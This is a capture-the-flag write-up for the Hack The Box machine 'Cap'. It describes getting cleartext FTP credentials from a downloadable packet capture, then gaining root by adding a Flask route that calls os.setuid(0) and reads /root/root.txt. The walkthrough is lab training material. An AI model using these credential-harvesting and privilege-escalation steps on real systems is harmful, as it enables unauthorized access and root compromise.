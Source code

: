 ```yaml
---
title: HTB Ready
date: 2021-07-28 13:37:00
tags:
- article
- htb
- writeup
---
```


![Cap](cap.png)

> Simple easy box, perfect to warmup before the FIC 2021 and get more confidence in 1337 h4ck1n9

## TL;DR

Find PCAP file on server, get SSH credentials, execute code as root with Python.

## Footholds

I did not even use `nmap` here, as we had a web server serving on port `tcp:80`. This website looked like this:

![Cap index](cap_index.png)

It seems to be a security dashboard for a server, we don't have any info about that. We have multiple endpoints on the server :

* `/capture`: redirects to `/data/{id}` after loading
* `/data/{id}`: we can download `{id}.pcap` by clicking a button
* `/ip`: get a `netstat` output

What can we do with that?

## User

I got to download the file `11.pcap`, and got nothing in it. I recognized that all my interactions with the server were logged in this PCAP, which is odd, I tought the server was serving a particular PCAP.

After playing again with the `/capture` endpoint, I figured out that the `/data/{id}` correspond to a specific user or IP. So I checked `/data/0` and got the following data:

![0.pcap](pcap.png)

And guess what? Yes we can see credentials in cleartext here:

![FTP connection in 0.pcap](ftp.png)

So we can SSH to the machine with those.

## Root

### Source code

The server was running in `/var/www/html/app.py` which is a Flask server. the user `nathan` have `rw` rights on it so I checked the source code:

```py
import os
from flask import *
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
import tempfile
import dpkt
from werkzeug.utils import append_slash_redirect

# [...]

app = Flask(__name__)

@app.route("/")
def index():
        return render_template("index.html")

@app.route("/capture")
@limiter.limit("10 per minute")
def capture():
        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))

@app.route("/ip")
def ifconfig():
	d = os.popen("ifconfig").read().strip()
	print(d)
	return render_template("index.html", rawtext=d)

@app.route("/data/<id>")
def data_id(id):
        try:
                id = int(id)
        except:
                return redirect("/")
        try:
                data = process_pcap(os.path.join(app.root_path, "upload", str(id) + ".pcap"))
                path = str(id) + ".pcap"
                return render_template("index.html", data=data, path=path)
        except Exception as e:
                print(e)
                return redirect("/")

# [...]

if __name__ == "__main__":
        app.run("0.0.0.0", 80, debug=True)
```

I removed some code for readability but you get the idea. The important stuff is the `os.setuid(0)` part.

### Exploit

As you can expect here we can execute code as root with the `os.setuid(0)` line. So I just edited this `app.py` file and added one route:

```py
@app.route("/test")
def test():
    os.setuid(0)
    data = os.popen("cat /root/root.txt").read()
    return render_template("index.html", data=data)

# opened a new port on the machine
if __name__ == "__main__":
    app.run("0.0.0.0", 65000, debug=True)
```

Then I started the server in the SSH connection: `nathan@cap: python3 app.py`, and connected on the server on my local machine with `firefox http://cap.htb:65000/test`.

![RCE as root](root.png)

And voilà.

![Cap rooted](cap_rooted.png)
